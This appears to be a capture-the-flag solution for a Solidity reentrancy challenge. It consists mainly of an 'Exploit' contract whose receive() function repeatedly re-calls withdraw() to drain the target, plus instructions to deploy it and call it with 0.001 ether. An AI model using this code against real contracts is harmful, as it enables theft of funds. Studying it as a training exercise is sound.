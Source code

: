 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.8;

interface Reentrance {
    function donate(address) external payable;
    function withdraw(uint) external payable;
}

contract Exploit {

    function exploit(address _who) public payable {
        Reentrance(_who).donate{value:msg.value}(address(this));
        Reentrance(_who).withdraw(msg.value);
    }

    receive() external payable {
        if (msg.value <= msg.sender.balance){
            Reentrance(msg.sender).withdraw(msg.value);
        }
    }
}
```
call exploit(), sending 0.001 ether ( 1 finney)
